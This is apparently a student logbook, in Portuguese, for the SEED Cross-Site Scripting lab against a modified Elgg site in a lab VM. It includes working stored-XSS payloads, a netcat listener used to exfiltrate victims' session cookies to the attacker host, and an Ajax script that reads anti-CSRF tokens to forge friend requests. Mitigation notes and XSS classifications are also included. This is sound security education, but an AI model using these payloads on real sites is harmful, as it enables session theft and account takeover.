






## LOGBOOK 7 — Cross-Site Scripting (XSS) Attack

Este logbook segue o guião SEED “Cross-Site Scripting Attack Lab". Reproduzimos o setup, comandos exatos e evidências (com imagens na pasta `images/`).

---

## Task 1 — Alert window (Stored XSS)

Objetivo: inserir código JavaScript malicioso no perfil do utilizador (Samy) de modo a que qualquer visitante execute o `alert()` ao carregar a página do perfil. Esta é uma vulnerabilidade de **Stored XSS** (o payload fica persistido no servidor e é servido a todos os clientes).

### Passos realizados
1. Login como `samy / seedsamy` em `http://www.seed-server.com`.
2. Abrir o perfil → "Edit profile".
3. No campo "Brief description" inserir exatamente:
	```html
	<script>alert('XSS by [grupo6]');</script>
	```
4. Guardar alterações (o servidor aceita a tag `<script>` porque as defesas de sanitização foram desativadas na versão modificada do Elgg — filtros como HTMLawed e usos de `htmlspecialchars()` estão comentados).
5. Logout de Samy.
6. Login como outro utilizador (ex.: `alice / seedalice`).
7. Abrir o perfil de Samy. O browser carrega o HTML do perfil e executa o JavaScript embebido, mostrando a janela `alert('XSS by [grupo6]')`.

### Evidência


### Explicação Técnica
O campo de descrição é armazenado na base de dados e reapresentado sem sanitização. Ao ser incluído no DOM da página de perfil, o conteúdo `<script>...</script>` é interpretado como script de mesma origem (`www.seed-server.com`). O código corre com os privilégios dessa origem e pode aceder ao `document.cookie`, modificar o DOM ou iniciar requisições AJAX. Como o payload está persistido, qualquer utilizador que visite o perfil (incluindo o próprio Samy ao reler) executa o script — característica que distingue Stored XSS de Reflected XSS (onde o payload apenas viaja na requisição e não é guardado).

### Resumo Task 1
Inserindo `<script>alert('XSS by [grupo6]');</script>` no perfil de Samy, obtivemos a execução automática do JavaScript em browsers de terceiros, confirmando a presença de Stored XSS na aplicação Elgg modificada.

---

## Task 2 — Mostrar cookies (document.cookie)

Objetivo: adaptar o payload para revelar o cookie de sessão do visitante que abre o perfil de Samy.

### Passos realizados
1. Login como `samy / seedsamy`.
2. Editar perfil e limpar o payload anterior do campo "Brief description".
3. Inserir:
	```html
	<script>alert(document.cookie);</script>
	```
4. Guardar e fazer logout.
5. Login como `alice / seedalice`.
6. Visitar `http://www.seed-server.com/profile/samy`.
7. Surge um popup contendo o valor atual de `document.cookie` da Alice (inclui a cookie de sessão Elgg, ex.: `Elgg=a0t1kmahfk9k3hsmtpmoa1hj8a; ...`).

### Evidência


### Explicação Técnica
O JavaScript executa sob a mesma origem `www.seed-server.com`; a Same Origin Policy permite ao código ler `document.cookie` dessa origem. Como a aplicação não efetuou escaping ou filtragem, o atacante armazenou um `<script>` que o servidor devolve integralmente. Quando Alice carrega a página, o script corre "de dentro" do contexto legítimo e lê as cookies que, de outro modo, seriam protegidas contra acesso de origens externas. Isto ilustra porque XSS quebra a confidencialidade de credenciais de sessão: o browser não distingue entre código legítimo e código injetado se ambos provêm da mesma origem. 

### Resumo Task 2
Com `<script>alert(document.cookie);</script>` exibimos a cookie de sessão do visitante (Alice) evidenciando a capacidade de leitura de credenciais via Stored XSS no Elgg modificado.

---

## Task 3 — Extrair cookies para o atacante

Objetivo: não só visualizar, mas enviar as cookies de sessão do visitante para o servidor controlado pelo atacante (na VM 10.9.0.1) através de um pedido HTTP forjado pelo browser.

### Passos realizados
1. Na VM atacante abrir terminal e executar:
	```bash
	nc -lknv 5555
	```
	Fica a escutar conexões TCP na porta 5555 e imprime qualquer pedido (mantém várias ligações por `-k`).
2. Login como `samy / seedsamy` em `www.seed-server.com`.
3. Editar perfil (Brief description) e inserir:
	```html
	<script>
	  document.write('');
	</script>
	```
4. Guardar e fazer logout.
5. Login como `alice / seedalice`.
6. Visitar o perfil de Samy. O browser da Alice executa o script e injeta `` com a query `c=<cookies_codificadas>`.
7. O browser tenta carregar a imagem e gera um `HTTP GET` para `http://10.9.0.1:5555/?c=...`; o netcat mostra o pedido contendo o cookie Elgg codificado (`Elgg=...`).

### Evidência


### Explicação Técnica
O `document.write()` insere dinamicamente uma tag `` cujo atributo `src` aponta para o host do atacante e inclui as cookies na query string. Navegadores permitem (mesmo sob Same Origin Policy) emitir pedidos para outras origens; a restrição está na leitura programática da resposta, não no envio. Assim, o browser envia os dados para fora, funcionando como canal de exfiltração. A função `escape()` percent‑codifica caracteres especiais garantindo que a cookie inteira aparece na query sem quebrar o URL. O atacante recupera o valor diretamente da linha `GET /?c=...` capturada pelo netcat.

### Resumo Task 3
Injetando `` forçámos o browser do visitante a enviar o cookie de sessão ao atacante, demonstrando extração prática via Stored XSS.

---

## Task 4 — Tornar o visitante “friend” do Samy (forged request)

Objetivo: quando uma vítima visita o perfil do Samy, o JavaScript injetado envia um pedido HTTP válido para adicionar Samy como amigo da vítima, sem interação do utilizador.

### 4.1 Capturar o pedido legítimo (referência)
Com o DevTools (Network) observámos o pedido gerado ao clicar em “Add friend”:

```http
GET http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1763328097&__elgg_token=z8h6jf9NQAcAZC-N0cTvlw
Cookie: Elgg=<sessao_da_Alice>; ...
Referer: http://www.seed-server.com/profile/samy
```

- `friend`: GUID do utilizador a adicionar (Samy; no nosso caso `59`).
- `__elgg_ts` e `__elgg_token`: tokens anti‑CSRF por sessão que o backend valida.

### Evidência


### 4.2 Payload XSS (Ajax GET)
Colocado no campo “About me” do perfil do Samy em modo Text:

```html
<script type="text/javascript">
window.onload = function () {
	var Ajax  = null;
	var ts    = "&__elgg_ts="    + elgg.security.token.__elgg_ts;     // ①
	var token = "&__elgg_token=" + elgg.security.token.__elgg_token;  // ②

	var samyGuid = 59; // GUID do Samy obtido do pedido legítimo
	var sendurl =
		"http://www.seed-server.com/action/friends/add?friend=" +
		samyGuid + ts + token;

	Ajax = new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

### 4.3 Teste e resultado
- Login como Alice → visitar `profile/samy` → o pedido `/action/friends/add?...` surge na tab Network com `Status 200/302` (ver redirect) e os tokens válidos da sessão da Alice.
- A interface passa a mostrar “Remove friend” no perfil do Samy, confirmando que a amizade foi criada automaticamente.

### Evidência
- 
- 

### Explicação Técnica
O código XSS corre com a mesma origem e sessão da vítima. Por isso, consegue ler os tokens `elgg.security.token.__elgg_ts` e `__elgg_token` e construir um pedido indistinguível de um pedido legítimo emitido pela aplicação. Tokens anti‑CSRF param pedidos vindos de outros sites, mas não param XSS, pois o script malicioso executa dentro da própria aplicação e tem acesso às mesmas credenciais/variáveis.

### Resumo Task 4
Com um simples Ajax GET para `/action/friends/add?friend=<GUID>` concatenado com `__elgg_ts` e `__elgg_token` da sessão da vítima, tornámos Samy automaticamente “friend” de qualquer visitante do perfil infectado.

---

## Questões 

- Questão 1: propósito das linhas ① e ② (tokens)
	- Função: obter os parâmetros `__elgg_ts` (timestamp) e `__elgg_token` da sessão ativa via `elgg.security.token`. O backend valida estes valores em cada ação; sem eles, o pedido seria rejeitado como CSRF. Em XSS, o script pode lê‑los e, portanto, contornar a proteção.

- Questão 2: e se só houvesse Editor mode no “About me”?
	- Sim, o ataque continua possível enquanto o servidor aceitar HTML/JS sem sanitização. O Editor mode apenas insere/transforma marcação; não é defesa. Mesmo que o editor atrapalhe `<script>`, seria possível injetar via atributos/event handlers ou `<script src>` para um `.js` externo. A mitigação correta é no servidor (sanitização/escape) e políticas como CSP e `HttpOnly`.

---

## Questão 2 — Tipo de XSS (Stored vs Reflected vs DOM)

Classificação principal: **Stored XSS**.

### Justificação
- O payload `<script>...</script>` é persistido na base de dados (campo de perfil) e servido a cada visita ao perfil.
- A execução ocorre no browser de qualquer utilizador que consulte a página, sem necessidade de repetir o envio do payload.

### Porque não é Reflected XSS
- Reflected XSS exige que o payload viaje na própria requisição e seja imediatamente refletido na resposta (ex.: parâmetro de query). Aqui o código fica guardado e reutilizado indefinidamente.

### Porque não é DOM‑Based puro
- DOM XSS decorre de manipulação insegura de dados apenas no cliente (ex.: `location.hash` inserido via JavaScript sem intervenção do servidor). Aqui, a vulnerabilidade raiz é server-side: o backend guarda e reemite conteúdo não sanitizado. O nosso exploit usa o DOM e Ajax para efeitos (exfiltração, pedidos forjados), mas isso não altera a natureza Stored.

---

